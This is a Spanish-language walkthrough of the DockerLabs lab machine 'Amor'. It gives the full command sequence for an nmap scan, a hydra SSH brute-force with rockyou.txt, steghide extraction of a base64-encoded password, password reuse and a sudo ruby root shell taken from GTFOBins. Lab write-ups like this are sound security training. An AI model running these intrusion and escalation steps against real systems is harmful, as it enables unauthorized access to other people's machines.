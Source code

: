 # Amor

# Enumeración

Empezamos con un escaneo de puertos.  

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Amor`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_1.jpg)   

Solo tenemos dos puertos abiertos, el 22 y el 80.  
Vamos a revisar qué encontramos en el puerto 80.  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_2.jpg)   

Observamos que hay una usuaria de la empresa llamada carlota, por lo tanto, podemos intentar un ataque de fuerza bruta contra SSH.  
Ejecutaremos el siguiente comando:  

`sudo hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t64`  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_3.jpg)     

¡Perfecto!  
Ya tenemos una contraseña válida y hemos iniciado sesión por SSH.   
Una vez dentro, ejecutamos el comando `sudo -l`, pero vemos que no obtenemos ningún resultado útil.  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_4.jpg)   

Lo mismo nos sucede al ejecutar el comando `find / -perm -4000 2>/dev/null`, ya que no obtenemos ningún resultado relevante.  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_5.jpg)     

Al revisar un poco en el directorio del usuario, encontramos una carpeta llamada **fotos** que contiene una imagen.  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_6.jpg)     

Nos descargamos la imagen con el siguiente comando:  

`scp -rpC carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Downloads`  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_7.jpg)    

Abrimos la imagen, pero aparentemente no contiene nada interesante.  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_8.jpg)     

Entonces utilizamos la herramienta **exiftool** para inspeccionar los metadatos de la imagen, pero no parece haber nada útil que podamos aprovechar.  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_9.jpg)     

Entonces probamos con la herramienta steghide.  
Ejecutamos el siguiente comando:  

`sudo steghide extract -sf imagen.jpg`  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_10.jpg)   

Vemos que se ha extraído un archivo llamado **secret.txt**.   
Al abrirlo, parece que contiene una contraseña codificada en base64.  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_11.jpg)     

Por lo tanto, la decodificamos con el siguiente comando:  

`echo 'ZXNsYWNhc2FkZXBpbnlwb24=' |base64 -d`  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_12.jpg)  

¡Perfecto!   
Ahora revisamos el archivo **/etc/passwd** para ver si hay algún otro usuario además de **carlota**.  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_13.jpg)  

¡Bien!   
Probamos la contraseña recién descubierta con el usuario **oscar**, ¡y funciona!  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_14.jpg)    

Ahora ejecutamos el comando `sudo -l`.  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_15.jpg)      

Bien, revisamos la web de GTFOBins para ver si y cómo podemos abusar de este binario para escalar privilegios.  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_16.jpg)       

Entonces ejecutaremos el siguiente comando:  

`sudo ruby -e 'exec "/bin/sh"'` ¡y listo!  

¡Ya somos root!  

![A](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/amor/A_17.jpg)         













